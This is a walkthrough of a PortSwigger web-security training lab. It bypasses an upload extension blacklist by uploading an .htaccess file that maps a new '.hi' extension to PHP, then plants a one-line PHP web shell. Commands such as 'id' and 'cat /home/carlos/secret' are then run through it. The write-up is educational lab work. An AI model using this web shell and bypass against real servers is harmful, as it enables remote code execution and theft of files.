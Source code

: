 ## Welcome, my friend. Today we will start the [4. File Upload lab](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass) in ```portswigger```

# Explain this Scenario:

## The importance of verifying servers and the presence of a reverse proxy

### Realistic scenario:

#### Imagine that you exploit a vulnerability in a website and discover that your requests are being routed to a different back-end server by a ```reverse proxy```. You may need to know how each backend server is configured to ensure that your vulnerability will work across all of them.


-----------

## Inadequate blacklists of dangerous file types

### Realistic scenario:

####  If a blacklist only blocks the .php extension, you can try uploading a file with the ```.php5``` or ```.phtml``` extension, as in these cases the code may execute despite the apparent block.



----------


## Bypass server configuration

#### Server Configuration: Servers are usually configured to execute files only if they are configured to do so. For example, in an Apache server, it is configured to execute PHP files using certain directives such as:

```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
AddType application/x-httpd-php .php
```



#### Configuration override: Some servers allow creating directory-specific configuration files to override or add to the general settings. On Apache servers, a ```.htaccess file``` can be used to achieve this.

#### On ```IIS servers```, the ```web.config``` file can be used to configure specific directory settings.

### Exploiting configuration files: If your server allows you to upload a .htaccess or web.config file, you can attempt to set the file to assign a ```new MIME type``` to a non-traditional extension, which will lead to the malicious code being executed.




# Let's play this lab:


![image](https://github.com/user-attachments/assets/c8f7acc9-f19a-4def-997b-ba20ecc1b27d)


#### Let's log in to your own account using the following credentials: ```wiener:peter```

![image](https://github.com/user-attachments/assets/1b7229a1-3813-48f9-b6f0-0dcc0d603e78)


#### Let's create a php malicious payload in file ```tor.php```:

### within tor.php:

```
<?php
    echo system($_GET["tor"]);
?>
```

![image](https://github.com/user-attachments/assets/295203de-7776-489e-b02f-df7db4e826ee)

### Now, Let's upload this malicious payload to server.


![image](https://github.com/user-attachments/assets/8d4d0ea0-7ab9-4ffd-9ab5-558f4ee71f14)

#### Hmm ,Sorry! REALY?

### ok Let's open the burp tool to explore what happen.


![image](https://github.com/user-attachments/assets/4ab7fbb3-ac22-4b18-bf2f-36f7ba0e38db)

### In bignner, We will uploading .htaccess file and change with configuration.
### change ```filename="tor.php"``` to ```filename=".htaccess"```
### change ```Content-Type: application/x-php``` to ```Content-Type: plain/text```
### ADD ```AddType application/x-httpd-php .hi``` instead of our payload.

![image](https://github.com/user-attachments/assets/ac4afcbe-6ff1-418a-b76e-acbc6b0d0b31)


#### Well, Let's change this ```Content-Type: application/x-php``` to ```Content-Type: image/jpeg```.

### Alsom, We change file name to ```tor.hi``` 


![image](https://github.com/user-attachments/assets/2f80a265-198a-4614-863f-45b0630756a4)

#### WOW! The file has been uploaded successfully.

### From Task 1, we explore that our file is within this path ```/files/avatars/file_name?parameter=command``` like this:

```
/files/avatars/tor.hi?tor=id
```

![image](https://github.com/user-attachments/assets/c25f3331-e8cf-4514-9453-816039c3c7f5)



#### Ok this task requrie reach to /home/carlos/secret file.

```
/files/avatars/tor.hi?tor=cat /home/carlos/secret
```

![image](https://github.com/user-attachments/assets/ab63ca56-fa23-4888-8574-b1daec98f9c3)


#### alert: this secret is douple, copy single secret only.
### Let's Submit this secret using the button provided in the lab banner. 

![image](https://github.com/user-attachments/assets/acf33007-0bfa-4266-9465-de10c3e43d2f)

## Then ...

![image](https://github.com/user-attachments/assets/ea0e91bc-bd05-4641-8b44-be097ef7d4a6)


### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/3a90f376-ae8b-449a-a7de-722b160eb23c" >
</p>


















